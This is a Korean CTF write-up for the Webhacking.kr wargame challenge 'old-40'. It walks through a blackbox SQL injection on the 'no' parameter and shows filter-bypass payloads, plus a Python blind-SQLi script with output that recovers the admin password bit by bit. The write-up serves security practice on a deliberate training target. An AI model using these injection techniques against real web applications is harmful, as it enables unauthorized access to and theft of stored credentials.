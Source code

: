 ```yaml
---
title: ["[Webhacking.kr] old-40 (sqli - 50)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, blind sqli, binary search, blackbox]
---
```

## Intro

또 블랙박스 SQLi다...  
인젝션이 가능한 파라미터와 필터링되는 문구들을 찾아보자.  

## Analysis

`no`, `id`, `pw` 세 파라미터 중, `no`만 인젝션이 동작하는 것으로 보인다.  
```
?no=1%0a%7c%7c%0a1%23
```  
`no`에 위와 같은 값을 넣으면, `Success - guest` 응답이 오고,  
`#` 주석 뒤에 필터링테스트를 진행할 수 있어.  
만약 문자열이 필터링된다면, `access denied` 응답이 온다.  

여러 구문들을 테스트한 결과,  
`select`, `or`, ` `, `ascii` 등이 필터링 된다.  

```
?no=0||no=2#
```  
위와 같은 페이로드를 넣으면 간단히 `admin`이 나올 줄 알았으나,  
`admin`의 `password`를 입력하라고 한다.  

즉, `password`를 Blind SQLi로 구해내는 문제로 보인다.  
구문이 참이라면, `admin password` 창이 나오고,  
거짓이라면 `Failure`가 뜰 것이다.  

```
?no=0||no=2&&length(pw)=10#
```  

`>`가 필터링되지 않아, `old-21`에서 사용했던 binary search based blind sqli를 그대로 사용할 수 있다.  

## Payload

```python
import requests

url = "https://webhacking.kr/challenge/web-29/"
cookies = {"PHPSESSID": "pdklhoab5em3bjokn1f6jji580"}

pw_len = 0
for i in range(1,50):
    payload = f"0%7c%7cno=2%26%26length(pw)={i}%23"
    response = requests.get(f"{url}?no={payload}&id=guest&pw=guest", cookies=cookies)

    if('admin password' in response.text):
        pw_len = i
        print(f"Password length is {pw_len}")
        break

pw = ''
for i in range(1, pw_len+1):
    char = 0
    for bit in range(6, -1, -1):
        payload = f"0%7c%7cno=2%26%26conv(hex(substr(pw,{i},1)),16,10)%26{1<<bit}%23"
#        payload = f"1'or ord(substr(pw,{i},1))%26{1<<bit} and id='admin"
        response = requests.get(f"{url}?no={payload}&id=guest&pw=guest", cookies=cookies)

        if('admin password' in response.text):
            char += 1<<bit
    pw += chr(char)
    print(f"Password is {pw}")
    
```

```
Password length is 10
Password is l
Password is lu
Password is luc
Password is luck
Password is luck_
Password is luck_a
Password is luck_ad
Password is luck_adm
Password is luck_admi
Password is luck_admin
```